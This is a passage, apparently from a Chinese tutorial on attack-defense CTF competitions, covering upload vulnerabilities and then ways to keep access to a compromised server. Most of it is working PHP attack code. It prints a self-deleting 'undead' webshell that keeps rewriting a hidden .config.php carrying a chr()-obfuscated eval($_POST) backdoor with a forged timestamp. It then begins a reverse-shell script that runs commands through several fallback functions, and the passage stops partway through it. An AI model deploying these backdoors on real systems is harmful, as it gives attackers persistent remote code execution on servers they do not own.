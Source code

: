 上传漏洞一般也是比较简单的黑名单过滤、服务器解析漏洞等等，可以直接上传木马；  

 
**五、权限维持**    

这里说的方法就比较“搅屎”了，上面说到利用预留后门可以维持权限，主要有两种，一种是“不死马”，另一种是反弹shell  
1.“不死马”  

	<?php
	    set_time_limit(0);
	    ignore_user_abort(1);
	    unlink(__FILE__);
	    while(1){
	        file_put_contents('./.config.php','<?php $_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();?>');
	        system('chmod 777 .config.php');
	        touch("./.config.php",mktime(20,15,1,11,28,2016));
	        usleep(100);
	        }
	?>
	  

利用预留后门，上传上面的“不死马”并访问，就会一直生成.config.php的一句话木马，木马内容可以自行修改，只要别被其他队伍看懂就行。  
这个不死马比较猥琐，解决的方法需要重启apache，或者写一个程序不停kill这个不死马进程。  
2.反弹shell  

	<?php 
	function which($pr) { 
	$path = execute("which $pr"); 
	return ($path ? $path : $pr); 
	} 
	function execute($cfe) { 
	$res = ''; 
	if ($cfe) { 
	if(function_exists('exec')) { 
	@exec($cfe,$res); 
	$res = join("\n",$res); 
	} elseif(function_exists('shell_exec')) { 
	$res = @shell_exec($cfe); 
	} elseif(function_exists('system')) { 
	@ob_start(); 
	@system($cfe); 
	$res = @ob_get_contents(); 
	@ob_end_clean(); 
	} elseif(function_exists('passthru')) { 
	@ob_start(); 
	@passthru($cfe); 
	$res = @ob_get_contents(); 
	@ob_end_clean(); 
	} elseif(@is_resource($f = @popen($cfe,"r"))) { 
	$res = ''; 
	while(!@feof($f)) { 
	$res .= @fread($f,1024); 
	} 
	@pclose($f); 
	} 
	} 
	return $res; 
	} 
	function cf($fname,$text){ 
	if($fp=@fopen($fname,'w')) { 
	@fputs($fp,@base64_decode($text)); 
	@fclose($fp); 
	} 